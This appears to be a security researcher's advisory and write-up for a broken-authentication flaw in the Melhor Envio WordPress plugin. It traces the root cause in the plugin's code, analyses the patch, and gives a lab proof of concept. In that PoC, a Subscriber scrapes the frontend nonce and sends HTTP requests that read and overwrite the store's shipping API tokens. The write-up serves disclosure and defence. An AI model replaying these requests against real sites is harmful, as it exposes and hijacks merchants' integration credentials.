





# CVE-2026-54804 - Melhor Envio Subscriber API Token Disclosure and Overwrite

# Overview

- Advisory: https://patchstack.com/database/wordpress/plugin/melhor-envio-cotacao/vulnerability/wordpress-melhor-envio-plugin-2-16-3-broken-authentication-vulnerability
- CVE-2026-54804
- Affected plugin: Melhor Envio (`melhor-envio-cotacao`)
- Version tested: `2.16.2`
- Affected versions: `<= 2.16.3`



# Summary

The issue is in the Melhor Envio API token management flow.

In Melhor Envio `2.16.2`, the plugin registers AJAX actions to read and save the Melhor Envio API tokens. These actions only check two things: that the user is logged in (because they are registered through `wp_ajax_*`) and that a WordPress nonce is valid. They never check an administrative capability such as `manage_options` or `manage_woocommerce`.

The misleading part is not that the endpoint uses `admin-ajax.php`. The key point is that the nonce used for the token group (`nonce_tokens`) is printed directly on the frontend for **every** logged-in user, including a `Subscriber`.

Because a WordPress nonce only protects against CSRF and is not an authorization mechanism, a `Subscriber` only needs to grab the nonce printed on the frontend and then call the token actions directly. As a result, a low-privilege account can:

1. Read the production API token.
2. Read the sandbox API token.
3. Read the current token environment.
4. Overwrite the production token.
5. Overwrite the sandbox token.
6. Switch the token environment to `sandbox` or `production`.

This leads to disclosure of the shipping integration credentials and takeover/modification of the store's Melhor Envio integration configuration.

# How I Found It

I started reviewing the plugin from its AJAX routes, since WooCommerce plugins usually register many endpoints serving both the frontend and the admin area.

In `Services/RouterService.php`, I saw that the token routes are registered with `wp_ajax_*` (logged-in only), with no `nopriv` variant:

```php
private function loadRoutesTokens() {
    $tokensController = new TokenController();

    add_action( 'wp_ajax_get_token', array( $tokensController, 'get' ) );
    add_action( 'wp_ajax_save_token', array( $tokensController, 'save' ) );
    add_action( 'wp_ajax_verify_token', array( $tokensController, 'verifyToken' ) );
}
```

Registering with `wp_ajax_*` only signals the intent "logged-in users only", but in WordPress it does not restrict by role. So I checked the controller next.

In `Controllers/TokenController.php`, both `get()` and `save()` only verify the nonce and then process the request immediately, without any `current_user_can()` line:

```php
public function get() {
    WpNonceValidatorHelper::check( $_GET[ self::WP_NONCE ], 'tokens' );

    $tokenData = ( new TokenService() )->get();
    return wp_send_json( $tokenData, 200 );
}
```

The remaining question was: can a `Subscriber` obtain the `tokens` nonce? I checked where the nonce is created in `melhor-envio-beta.php` and found that the `load_var_nonce()` function prints all nonces to the frontend:

```php
function load_var_nonce()
{
    $wpApiSettings = json_encode( array(
        'nonce_configs' => wp_create_nonce( 'save_configurations' ),
        'nonce_orders'  => wp_create_nonce( 'orders' ),
        'nonce_tokens'  => wp_create_nonce( 'tokens' ),
        'nonce_users'   => wp_create_nonce( 'users' ),
        ...
    ) );

    wp_register_script( 'wp-nonce-melhor-evio-wp-api', '' );
    wp_enqueue_script( 'wp-nonce-melhor-evio-wp-api' );
    wp_add_inline_script( 'wp-nonce-melhor-evio-wp-api', "var wpApiSettingsMelhorEnvio = {$wpApiSettings};" );
}

add_action( 'admin_enqueue_scripts', 'load_var_nonce' );
add_action( 'wp_enqueue_scripts', 'load_var_nonce' );
```

Because of the `wp_enqueue_scripts` hook, the `wpApiSettingsMelhorEnvio.nonce_tokens` variable appears on any frontend page that calls `wp_head()`, even when the user is logged in as a `Subscriber`.

After logging in as a `Subscriber`, grabbing `nonce_tokens` from the frontend and then calling `get_token` and `save_token` with that nonce, the requests were accepted and the tokens were successfully read and overwritten.

# Patch Analysis

The bug was fixed in Melhor Envio `2.16.4`.

In `2.16.2`, the controller only checks the nonce before reading/writing the token:

```php
public function get() {
    WpNonceValidatorHelper::check( $_GET[ self::WP_NONCE ], 'tokens' );

    $tokenData = ( new TokenService() )->get();
    return wp_send_json( $tokenData, 200 );
}
```

There is no capability check. If the nonce is valid, the code continues regardless of the caller's role.

A safe flow should reject the request before touching sensitive data:

```php
if ( ! current_user_can( 'manage_options' ) ) {
    wp_send_json_error( array( 'message' => 'Forbidden' ), 403 );
}
```

In `2.16.4`, the plugin added exactly this check to all three methods `get()`, `save()`, and `verifyToken()`:

```php
public function get() {
    WpNonceValidatorHelper::check( $_GET[ self::WP_NONCE ], 'tokens' );

    if ( ! current_user_can( 'manage_woocommerce' ) && ! current_user_can( 'manage_options' ) ) {
        wp_send_json_error( array( 'message' => 'Forbidden' ), 403 );
    }

    $tokenData = ( new TokenService() )->get();
    return wp_send_json( $tokenData, 200 );
}
```

```php
public function save() {
    WpNonceValidatorHelper::check( $_POST[ self::WP_NONCE ], 'tokens' );

    if ( ! current_user_can( 'manage_woocommerce' ) && ! current_user_can( 'manage_options' ) ) {
        wp_send_json_error( array( 'message' => 'Forbidden' ), 403 );
    }
    ...
}
```

After the patch, the nonce is still printed on the frontend, but a `Subscriber` no longer has `manage_woocommerce`/`manage_options`, so `get_token`/`save_token`/`verify_token` return `403 Forbidden`. Fixing at the authorization layer (capability) rather than at the nonce layer is the correct fix for the root cause.

# Root Cause

The root cause is a missing authorization check in the AJAX actions that manage the API tokens.

## 1. Token AJAX actions only require a logged-in user

The plugin registers the token routes with `wp_ajax_*`:

```text
wp_ajax_get_token       -> TokenController::get
wp_ajax_save_token      -> TokenController::save
wp_ajax_verify_token    -> TokenController::verifyToken
```

The `wp_ajax_*` hook only guarantees that the request comes from a logged-in user. It does not restrict by role. If the callback does not check a capability itself, any logged-in user such as `Subscriber`, `Customer`, `Contributor`... can call it.

## 2. The controller only checks the nonce

In `Controllers/TokenController.php`, the functions only call `WpNonceValidatorHelper::check()`:

```php
WpNonceValidatorHelper::check( $_GET[ self::WP_NONCE ], 'tokens' );
```

This helper only verifies the nonce:

```php
class WpNonceValidatorHelper {
    public static function check( $wp_nonce, $type ) {
        if ( ! wp_verify_nonce( $wp_nonce, $type ) ) {
            return wp_send_json( array(), 403 );
        }
    }
}
```

A valid nonce only proves the request carries a nonce generated by WordPress, not that the caller has the capability to administer the plugin.

## 3. The token nonce is printed on the frontend for Subscribers

`load_var_nonce()` is hooked to both `admin_enqueue_scripts` and `wp_enqueue_scripts`, so `nonce_tokens` is exposed on the frontend to every logged-in user:

```js
var wpApiSettingsMelhorEnvio = {
    "nonce_configs": "...",
    "nonce_orders":  "...",
    "nonce_tokens":  "06f82cde76",
    "nonce_users":   "..."
};
```

Because this nonce is usable for the token management actions, exposing it to a `Subscriber` creates a direct exploitation path.

## 4. The sink reads and writes sensitive options

After passing the nonce check, the plugin calls `Models/Token.php`.

`Token::get()` returns the production token, sandbox token, and environment:

```php
public function get() {
    $environment = get_option( self::OPTION_TOKEN_ENVIRONMENT, self::PRODUCTION );
    ...
    return array(
        'token'             => get_option( self::OPTION_TOKEN, '' ),
        'token_sandbox'     => get_option( self::OPTION_TOKEN_SANDBOX, '' ),
        'token_environment' => $environment,
    );
}
```

`Token::save()` deletes and recreates the three options using attacker-supplied data:

```php
public function save( $token, $tokenSandbox, $environment ) {
    delete_option( self::OPTION_TOKEN );
    delete_option( self::OPTION_TOKEN_SANDBOX );
    delete_option( self::OPTION_TOKEN_ENVIRONMENT );

    return array(
        'token'             => add_option( self::OPTION_TOKEN, $token ),
        'token_sandbox'     => add_option( self::OPTION_TOKEN_SANDBOX, $tokenSandbox ),
        'token_environment' => add_option( self::OPTION_TOKEN_ENVIRONMENT, $environment ),
    );
}
```

The affected sensitive options are:

```text
wpmelhorenvio_token
wpmelhorenvio_token_sandbox
wpmelhorenvio_token_environment
```

# Token Read and Write

Once the nonce is valid, `get_token` returns the token directly as JSON. `save_token` reads `token`, `token_sandbox`, and `environment` from the request and overwrites the options, with only a couple of `isset()` checks:

```php
public function save() {
    WpNonceValidatorHelper::check( $_POST[ self::WP_NONCE ], 'tokens' );

    if ( ! isset( $_POST['token'] ) ) { ... }
    if ( ! isset( $_POST['environment'] ) ) { ... }

    $result = ( new TokenService() )->save(
        SanitizeHelper::apply( $_POST['token'] ),
        SanitizeHelper::apply( $_POST['token_sandbox'] ),
        SanitizeHelper::apply( $_POST['environment'] )
    );
    ...
}
```

There is no capability check before these sensitive operations, so the attacker fully controls the token values and the environment that get stored.

# Preconditions

The issue requires these conditions:

- Melhor Envio `<= 2.16.3` is active.
- WooCommerce is active.
- The site has configured Melhor Envio API tokens (production/sandbox).
- The attacker has a low-privilege WordPress account, for example `Subscriber`.

# Exploit Flow

```text
Subscriber login
        |
        v
Open a frontend page (with wp_head())
        |
        v
Frontend prints wpApiSettingsMelhorEnvio.nonce_tokens
        |
        v
Subscriber extracts nonce_tokens
        |
        v
GET admin-ajax.php?action=get_token&_wpnonce=<nonce>
        |
        v
Production + sandbox tokens are disclosed
        |
        v
POST admin-ajax.php  action=save_token&_wpnonce=<nonce>
        |
        v
Token + environment are overwritten with attacker values
```

# PoC

Lab environment:

```text
Target: http://192.168.1.14:8090/
WordPress: 6.9.4
PHP: 8.3
WooCommerce: 10.7.0
Melhor Envio: 2.16.2
Lowest role: Subscriber (subscriber_test)
Tokens configured: Yes
```

Initial state:

```text
wpmelhorenvio_token:             prod_secret_initial_1234567890
wpmelhorenvio_token_sandbox:     sandbox_secret_initial_1234567890
wpmelhorenvio_token_environment: production
```

After logging in as a `Subscriber`, open any frontend page that calls `wp_head()`. The plugin prints the `wpApiSettingsMelhorEnvio` variable directly in the page HTML, which includes `nonce_tokens`.



The nonce to use:

```text
nonce_tokens = 06f82cde76
```

Using that same nonce, the `Subscriber` calls the `get_token` action directly to read the configured tokens:

```http
GET /wp-admin/admin-ajax.php?action=get_token&_wpnonce=06f82cde76 HTTP/1.1
Host: 192.168.1.14:8090
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: wordpress_169487d1990b032e94d99297ec5d122b=subscriber_test%7C1782201308%7C8YbVbZi5JnlkwVnwTqdQfC7w5gaPRtyBTtSrxjhv8vb%7Cace0493acda8244e5134f3a644abf84c67a96b3d201c7722f630cdade1d490f8; sbjs_migrations=1418474375998%3D1; sbjs_current_add=fd%3D2026-06-21%2007%3A42%3A07%7C%7C%7Cep%3Dhttp%3A%2F%2F192.168.1.14%3A8090%2F%7C%7C%7Crf%3D%28none%29; sbjs_first_add=fd%3D2026-06-21%2007%3A42%3A07%7C%7C%7Cep%3Dhttp%3A%2F%2F192.168.1.14%3A8090%2F%7C%7C%7Crf%3D%28none%29; sbjs_current=typ%3Dtypein%7C%7C%7Csrc%3D%28direct%29%7C%7C%7Cmdm%3D%28none%29%7C%7C%7Ccmp%3D%28none%29%7C%7C%7Ccnt%3D%28none%29%7C%7C%7Ctrm%3D%28none%29%7C%7C%7Cid%3D%28none%29%7C%7C%7Cplt%3D%28none%29%7C%7C%7Cfmt%3D%28none%29%7C%7C%7Ctct%3D%28none%29; sbjs_first=typ%3Dtypein%7C%7C%7Csrc%3D%28direct%29%7C%7C%7Cmdm%3D%28none%29%7C%7C%7Ccmp%3D%28none%29%7C%7C%7Ccnt%3D%28none%29%7C%7C%7Ctrm%3D%28none%29%7C%7C%7Cid%3D%28none%29%7C%7C%7Cplt%3D%28none%29%7C%7C%7Cfmt%3D%28none%29%7C%7C%7Ctct%3D%28none%29; sbjs_udata=vst%3D1%7C%7C%7Cuip%3D%28none%29%7C%7C%7Cuag%3DMozilla%2F5.0%20%28Windows%20NT%2010.0%3B%20Win64%3B%20x64%29%20AppleWebKit%2F537.36%20%28KHTML%2C%20like%20Gecko%29%20Chrome%2F146.0.0.0%20Safari%2F537.36; wordpress_logged_in_169487d1990b032e94d99297ec5d122b=subscriber_test%7C1782201308%7C8YbVbZi5JnlkwVnwTqdQfC7w5gaPRtyBTtSrxjhv8vb%7C48ecf885f82c80898c85f272dce16c0f00bbd815a6f5c7c60127ef0432de2bb3
Connection: keep-alive
```

Response:

```http
HTTP/1.1 200 OK
Date: Sun, 21 Jun 2026 08:40:20 GMT
Server: Apache/2.4.66 (Debian)
X-Powered-By: PHP/8.3.30
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0, no-store, private
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self';
Content-Length: 127
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json; charset=UTF-8

{"token":"prod_secret_initial_1234567890","token_sandbox":"sandbox_secret_initial_1234567890","token_environment":"production"}
```



The `Subscriber` reads both the production token and the sandbox token. Next, using the same nonce, the `Subscriber` switches to the `save_token` action to overwrite the tokens with attacker-controlled values:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 192.168.1.14:8090
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: wordpress_169487d1990b032e94d99297ec5d122b=subscriber_test%7C1782201308%7C8YbVbZi5JnlkwVnwTqdQfC7w5gaPRtyBTtSrxjhv8vb%7Cace0493acda8244e5134f3a644abf84c67a96b3d201c7722f630cdade1d490f8; sbjs_migrations=1418474375998%3D1; sbjs_current_add=fd%3D2026-06-21%2007%3A42%3A07%7C%7C%7Cep%3Dhttp%3A%2F%2F192.168.1.14%3A8090%2F%7C%7C%7Crf%3D%28none%29; sbjs_first_add=fd%3D2026-06-21%2007%3A42%3A07%7C%7C%7Cep%3Dhttp%3A%2F%2F192.168.1.14%3A8090%2F%7C%7C%7Crf%3D%28none%29; sbjs_current=typ%3Dtypein%7C%7C%7Csrc%3D%28direct%29%7C%7C%7Cmdm%3D%28none%29%7C%7C%7Ccmp%3D%28none%29%7C%7C%7Ccnt%3D%28none%29%7C%7C%7Ctrm%3D%28none%29%7C%7C%7Cid%3D%28none%29%7C%7C%7Cplt%3D%28none%29%7C%7C%7Cfmt%3D%28none%29%7C%7C%7Ctct%3D%28none%29; sbjs_first=typ%3Dtypein%7C%7C%7Csrc%3D%28direct%29%7C%7C%7Cmdm%3D%28none%29%7C%7C%7Ccmp%3D%28none%29%7C%7C%7Ccnt%3D%28none%29%7C%7C%7Ctrm%3D%28none%29%7C%7C%7Cid%3D%28none%29%7C%7C%7Cplt%3D%28none%29%7C%7C%7Cfmt%3D%28none%29%7C%7C%7Ctct%3D%28none%29; sbjs_udata=vst%3D1%7C%7C%7Cuip%3D%28none%29%7C%7C%7Cuag%3DMozilla%2F5.0%20%28Windows%20NT%2010.0%3B%20Win64%3B%20x64%29%20AppleWebKit%2F537.36%20%28KHTML%2C%20like%20Gecko%29%20Chrome%2F146.0.0.0%20Safari%2F537.36; wordpress_logged_in_169487d1990b032e94d99297ec5d122b=subscriber_test%7C1782201308%7C8YbVbZi5JnlkwVnwTqdQfC7w5gaPRtyBTtSrxjhv8vb%7C48ecf885f82c80898c85f272dce16c0f00bbd815a6f5c7c60127ef0432de2bb3
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 138

action=save_token&_wpnonce=06f82cde76&token=attacker_replaced_prod_token&token_sandbox=attacker_replaced_sandbox_token&environment=sandbox
```

Response:

```http
HTTP/1.1 200 OK
Date: Sun, 21 Jun 2026 08:54:24 GMT
Server: Apache/2.4.66 (Debian)
X-Powered-By: PHP/8.3.30
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0, no-store, private
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self';
Set-Cookie: PHPSESSID=c4a14636f684af50013319f237adcb10; path=/
Pragma: no-cache
Content-Length: 52
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json; charset=UTF-8

{"success":true,"message":"Token salvo com sucesso"}
```



After the `save_token` request, server-side verification shows that the WordPress options have been changed:

```text
wpmelhorenvio_token:             attacker_replaced_prod_token
wpmelhorenvio_token_sandbox:     attacker_replaced_sandbox_token
wpmelhorenvio_token_environment: sandbox
```

Reading them back over HTTP confirms the change:

```http
GET /wp-admin/admin-ajax.php?action=get_token&_wpnonce=06f82cde76 HTTP/1.1
...

{"token":"attacker_replaced_prod_token","token_sandbox":"attacker_replaced_sandbox_token","token_environment":"sandbox"}
```



The result proves that a `Subscriber` can not only read the API tokens but also overwrite the plugin's token configuration.

# Impact

With the vulnerable configuration, a low-privilege attacker (`Subscriber`) can read and modify the store's Melhor Envio API tokens.

In the lab, the issue allowed:

1. Disclosure of the production API token.
2. Disclosure of the sandbox API token.
3. Overwriting the tokens with attacker-controlled credentials.
4. Switching the integration environment between production and sandbox.
5. Disrupting / corrupting the shipping label generation workflow.

Because the token is the credential the plugin uses to talk to the Melhor Envio API, disclosing and overwriting it directly affects the confidentiality and integrity of the entire shipping integration.

# Limitations

This issue is not unauthenticated: the attacker needs a valid WordPress account, even if only a `Subscriber`. If the site does not allow self-registration, the attacker needs an existing low-privilege account.

The issue also requires the Melhor Envio plugin + WooCommerce to be active and the site to have configured tokens. If no token is configured, `get_token` discloses no value, but `save_token` still allows writing arbitrary tokens.

The issue does not lead directly to RCE. The main impact is credential disclosure, credential overwrite, and an integrity compromise of the shipping integration.

# Mitigation

Administrators should update Melhor Envio to `2.16.4` or later.

At the code level, every token-related action must check a capability before processing sensitive data:

```php
if ( ! current_user_can( 'manage_woocommerce' ) && ! current_user_can( 'manage_options' ) ) {
    wp_send_json_error( array( 'message' => 'Forbidden' ), 403 );
}
```

This should be applied at least to: `get_token`, `save_token`, `verify_token`.

Additional recommendations:

1. Do not print `nonce_tokens` on the frontend for every user; the token management nonce should only be rendered on the admin page for authorized users.
2. Separate the frontend nonce from the admin nonce.
3. Validate `environment` against an allowlist (`production` / `sandbox`).
4. Do not return the full token over AJAX if not necessary; mask the token when displaying it.
5. Log every token change.
6. After patching, rotate any Melhor Envio API tokens that were previously configured.

# References

- Melhor Envio: https://wordpress.org/plugins/melhor-envio-cotacao/
- Plugin source tag 2.16.2: https://plugins.svn.wordpress.org/melhor-envio-cotacao/tags/2.16.2/
- Plugin source tag 2.16.4: https://plugins.svn.wordpress.org/melhor-envio-cotacao/tags/2.16.4/
